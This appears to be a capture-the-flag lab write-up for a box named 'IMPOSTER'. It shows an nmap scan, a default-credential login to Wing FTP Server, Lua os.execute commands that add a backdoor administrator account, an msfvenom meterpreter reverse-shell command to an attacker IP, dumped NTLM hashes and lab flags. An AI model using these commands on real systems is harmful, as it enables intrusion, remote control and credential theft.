# IMPOSTER



## NMAP SCAN

```text
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1025/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1026/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1027/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1028/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1035/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1036/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1037/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http-proxy         syn-ack ttl 127 Wing FTP Server(UNREGISTERED)
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

## PORT 8080 ENUMERATION





* CREDS ADMIN:PASSWORD WORKED





## EXPLOIT

### 1. ADDING NEW USER \( DIDN'T WORK FOR ME\)

* [https://www.hackingtutorials.org/exploit-tutorials/hacking-and-securing-wing-ftp-server-4-3-8/](https://www.hackingtutorials.org/exploit-tutorials/hacking-and-securing-wing-ftp-server-4-3-8/)

```text
os.execute(‘cmd.exe /c "net user livestep livestep /add"’)

os.execute(‘cmd.exe /c net localgroup administrators livestep /add’)

os.execute('cmd /c net localgroup "Remote Desktop Users" livestep /add')
```

### 2. UPLOADING A REVERSE SHELL \(MSFVENOM\)\(WORKED\)

```text
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.0.63 LPORT=7777 -f exe -o shell.exe
```

* CATCH A POST REQUEST OF CONSOLE IN BURP AND CHANGE TO



* CERTIFIES THAT UPLOADS



* RUN



* GET A SHELL



## PRIVESC







## CREDS

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ea9d2e8b58df24462a5851752a4b3f7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lian:1009:aad3b435b51404eeaad3b435b51404ee:641922e4a2f6421c2dd0328610eaa75c:::
```

## FLAGS

### USER

```text
cad14501e31203841c87fe62f4033605
```

### ROOT

```text
0fae2c56cb5999b9ca977984e7e4646c
```


